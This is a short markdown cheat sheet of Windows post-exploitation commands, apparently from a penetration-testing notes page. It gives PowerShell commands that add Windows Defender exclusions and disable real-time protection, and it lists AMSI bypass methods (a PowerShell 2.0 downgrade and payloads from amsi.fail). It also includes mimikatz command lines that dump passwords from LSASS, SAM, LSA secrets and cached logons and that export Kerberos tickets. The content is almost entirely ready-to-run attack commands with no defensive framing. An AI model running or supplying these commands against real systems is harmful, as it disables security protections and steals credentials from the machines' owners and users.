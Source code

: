 ## Disable Antivirus  
### With Admin privileges  
Add a folder to the list of paths for which Windows Defender scheduled and real-time scanning is disabled:  
`PS C:\> Add-MpPreference –ExclusionPath “C:\Temp\User"`
  
Disable real-time protection:  
`PS C:\> Set-MpPreference –DisableRealtimeMonitoring $True`  

Some AMSI (Antimalware scan interface) bypass techniques:  
`PS C:\> powershell.exe –version 2` (Downgrade to PowerShell 2.0 (.NET Framework 3.5 is required)  
Crash the AMSI process by running payloads available « amsi.fail » (https://amsi.fail).  
  
## Extract passwords 
### With Admin privileges 
  
`mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"`  
  
**Explanation :**  
`privilege::debug` & `token::elevate` Elevate Privileges to extract the credentials  
`sekurlsa::logonpasswords` Extracts creds from lsass (memory)  
`lsadump::lsa /inject` Extracts from lsass (service)  
`lsadump::sam` Extracts creds from SAM  

## Extract Kerberos tickets from memory  
### With Admin privileges 
   
`mimikatz.exe "privilege::debug" "token::elevate" "kerberos::list /export" "exit"`    
  
